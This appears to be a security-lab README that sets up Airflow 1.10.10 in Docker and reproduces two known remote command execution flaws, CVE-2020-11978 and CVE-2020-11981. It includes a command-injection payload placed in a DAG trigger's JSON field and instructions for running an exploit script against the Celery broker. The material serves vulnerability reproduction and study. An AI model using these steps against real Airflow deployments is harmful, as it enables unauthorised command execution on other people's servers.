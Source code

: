 # Airflow 1.10.10 Multiple Vulnerability Exploits

[中文版本(Chinese version)](./README.zh-cn.md)

Airflow is an open source, distributed task scheduling framework. It assembles a workflow with subordinate and subordinate dependencies into a directed acyclic graph.

The 1.10.10 docker-compose file is modified from the docker-compose file provided by airflow 2.x.

Airflow configuration uses CeleryExecutor for task execution, so the command execution result needs to be viewed in the CeleryWorker  container.

Since there are many components to be started, it may be a bit stuck. Please prepare more than 2G of memory for the use of the virtual machine.

## Vulnerability Environment

Execute the following commands to start airflow 1.10.10

```bash
#Initialize the database
docker-compose run airflow-init initdb
#Start service
docker-compsoe up -d
```

## Exploits

### CVE-2020-11978 - RCE/command execution in example dag

Visit `http://host:8080` to enter the airflow management terminal, and change the Off in front of `example_trigger_target_dag` to On:

![image-20210701142307744](README.assets/image-20210701142307744.png)

Then click the Triger button and enter in `Configuration JSON`: `{"message":"'\";touch /tmp/airflow_dag_success;#"}`, then click `Trigger` to execute dag

![image-20210701142758977](README.assets/image-20210701142758977.png)

Wait a few seconds to see the execution of `success`

![image-20210701142948275](README.assets/image-20210701142948275.png)

Go to the CeleryWorker container to view:

```
docker exec -it [celeryworker container name] ls -l /tmp
```

You can see that the airflow_dag_success file was successfully created:

![image-20210701143152868](README.assets/image-20210701143152868-1625122787851.png)

### CVE-2020-11981 - Command injection via Celery broker

Airflow uses Celery version 4.0 or higher, so it cannot be exploited through pickle deserialization vulnerability, but it can execute any command by issuing the `airflow.executors.celery_executor.execute_command` task for starting the task. The parameter is the command execution. The required array in.

The exploit script `exploit_airflow_celery.py` only supports use under python3, and the command `touch /tmp/airflow_celery_success` is executed by default

```
pip install redis
python exploit_airflow_celery.py [HostIP]
```

View Results:

```bash
docker logs [celeryworker container name]
```

You can see the following task messages:

![image-20210701143950658](README.assets/image-20210701143950658.png)

```
docker exec -it [celeryworker container name] ls -l /tmp
```

You can see that the file `airflow_celery_success` was successfully created

![image-20210701144043792](README.assets/image-20210701144043792.png)

## Reference

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803
